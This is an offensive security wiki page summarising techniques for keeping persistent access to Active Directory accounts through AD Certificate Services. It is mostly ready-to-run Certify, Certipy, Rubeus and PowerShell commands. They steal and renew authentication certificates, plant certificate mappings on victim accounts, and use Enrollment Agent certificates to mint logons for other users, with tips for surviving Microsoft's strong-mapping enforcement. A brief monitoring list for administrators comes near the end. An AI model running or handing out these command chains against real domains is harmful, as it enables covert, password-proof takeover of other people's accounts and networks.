 # AD CS Account Persistence

{{#include ../../../banners/hacktricks-training.md}}

**This is a small summary of the account persistence chapters of the awesome research from [https://specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)**

## Understanding Active User Credential Theft with Certificates – PERSIST1

In a scenario where a certificate that allows domain authentication can be requested by a user, an attacker has the opportunity to request and steal this certificate to maintain persistence on a network. By default, the `User` template in Active Directory allows such requests, though it may sometimes be disabled.

Using [Certify](https://github.com/GhostPack/Certify) or [Certipy](https://github.com/ly4k/Certipy), you can search for enabled templates that allow client authentication and then request one:

```bash
# Enumerate client-auth capable templates
Certify.exe find /clientauth

# Request a user cert from an Enterprise CA (current user context)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User

# Using Certipy (RPC/DCOM/WebEnrollment supported). Saves a PFX by default
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' -template 'User' -out user.pfx
```

A certificate’s power lies in its ability to authenticate as the user it belongs to, regardless of password changes, as long as the certificate remains valid.

You can convert PEM to PFX and use it to obtain a TGT:

```bash
# Convert PEM returned by Certify to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for PKINIT and inject the TGT
Rubeus.exe asktgt /user:john /certificate:C:\Temp\cert.pfx /password:CertPass! /ptt

# Or with Certipy
certipy auth -pfx user.pfx -dc-ip 10.0.0.10
```

> Note: Combined with other techniques (see THEFT sections), certificate-based auth allows persistent access without touching LSASS and even from non-elevated contexts.

## Gaining Machine Persistence with Certificates - PERSIST2

If an attacker has elevated privileges on a host, they can enroll the compromised system’s machine account for a certificate using the default `Machine` template. Authenticating as the machine enables S4U2Self for local services and can provide durable host persistence:

```bash
# Request a machine certificate as SYSTEM
Certify.exe request /ca:dc.theshire.local/theshire-DC-CA /template:Machine /machine

# Authenticate as the machine using the issued PFX
Rubeus.exe asktgt /user:HOSTNAME$ /certificate:C:\Temp\host.pfx /password:Passw0rd! /ptt
```

## Extending Persistence Through Certificate Renewal - PERSIST3

Abusing the validity and renewal periods of certificate templates lets an attacker maintain long-term access. If you possess a previously issued certificate and its private key, you can renew it before expiration to obtain a fresh, long-lived credential without leaving additional request artifacts tied to the original principal.

```bash
# Renewal with Certipy (works with RPC/DCOM/WebEnrollment)
# Provide the existing PFX and target the same CA/template when possible
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
            -template 'User' -pfx user_old.pfx -renew -out user_renewed.pfx

# Native Windows renewal with certreq
# (use the serial/thumbprint of the cert to renew; reusekeys preserves the keypair)
certreq -enroll -user -cert <SerialOrID> renew [reusekeys]
```

> Operational tip: Track lifetimes on attacker-held PFX files and renew early. Renewal can also cause updated certificates to include the modern SID mapping extension, keeping them usable under stricter DC mapping rules (see next section).

## Planting Explicit Certificate Mappings (altSecurityIdentities) – PERSIST4

If you can write to a target account’s `altSecurityIdentities` attribute, you can explicitly map an attacker-controlled certificate to that account. This persists across password changes and, when using strong mapping formats, remains functional under modern DC enforcement.

High-level flow:

1. Obtain or issue a client-auth certificate you control (e.g., enroll `User` template as yourself).
2. Extract a strong identifier from the cert (Issuer+Serial, SKI, or SHA1-PublicKey).
3. Add an explicit mapping on the victim principal’s `altSecurityIdentities` using that identifier.
4. Authenticate with your certificate; the DC maps it to the victim via the explicit mapping.

Example (PowerShell) using a strong Issuer+Serial mapping:

```powershell
# Example values - reverse the issuer DN and serial as required by AD mapping format
$Issuer  = 'DC=corp,DC=local,CN=CORP-DC-CA'
$SerialR = '1200000000AC11000000002B' # reversed byte order of the serial
$Map     = "X509:<I>$Issuer<SR>$SerialR"

# Add mapping to victim. Requires rights to write altSecurityIdentities on the object
Set-ADUser -Identity 'victim' -Add @{altSecurityIdentities=$Map}
```

Then authenticate with your PFX. Certipy will obtain a TGT directly:

```bash
certipy auth -pfx attacker_user.pfx -dc-ip 10.0.0.10
```

Notes
- Use strong mapping types only: X509IssuerSerialNumber, X509SKI, or X509SHA1PublicKey. Weak formats (Subject/Issuer, Subject-only, RFC822 email) are deprecated and can be blocked by DC policy.
- The cert chain must build to a root trusted by the DC. Enterprise CAs in NTAuth are typically trusted; some environments also trust public CAs.

For more on weak explicit mappings and attack paths, see:



{{#ref}}
domain-escalation.md
{{#endref}}

## Enrollment Agent as Persistence – PERSIST5

If you obtain a valid Certificate Request Agent/Enrollment Agent certificate, you can mint new logon-capable certificates on behalf of users at will and keep the agent PFX offline as a persistence token. Abuse workflow:

```bash
# Request an Enrollment Agent cert (requires template rights)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:"Certificate Request Agent"

# Mint a user cert on behalf of another principal using the agent PFX
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User \
                   /onbehalfof:CORP\\victim /enrollcert:C:\Temp\agent.pfx /enrollcertpw:AgentPfxPass

# Or with Certipy
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
           -template 'User' -on-behalf-of 'CORP/victim' -pfx agent.pfx -out victim_onbo.pfx
```

Revocation of the agent certificate or template permissions is required to evict this persistence.

## 2025 Strong Certificate Mapping Enforcement: Impact on Persistence

Microsoft KB5014754 introduced Strong Certificate Mapping Enforcement on domain controllers. Since February 11, 2025, DCs default to Full Enforcement, rejecting weak/ambiguous mappings. Practical implications:

- Pre-2022 certificates that lack the SID mapping extension may fail implicit mapping when DCs are in Full Enforcement. Attackers can maintain access by either renewing certificates through AD CS (to obtain the SID extension) or by planting a strong explicit mapping in `altSecurityIdentities` (PERSIST4).
- Explicit mappings using strong formats (Issuer+Serial, SKI, SHA1-PublicKey) continue to work. Weak formats (Issuer/Subject, Subject-only, RFC822) can be blocked and should be avoided for persistence.

Administrators should monitor and alert on:
- Changes to `altSecurityIdentities` and issuance/renewals of Enrollment Agent and User certificates.
- CA issuance logs for on-behalf-of requests and unusual renewal patterns.

## References

- Microsoft. KB5014754: Certificate-based authentication changes on Windows domain controllers (enforcement timeline and strong mappings).
  https://support.microsoft.com/en-au/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
- Certipy Wiki – Command Reference (`req -renew`, `auth`, `shadow`).
  https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference

{{#include ../../../banners/hacktricks-training.md}}
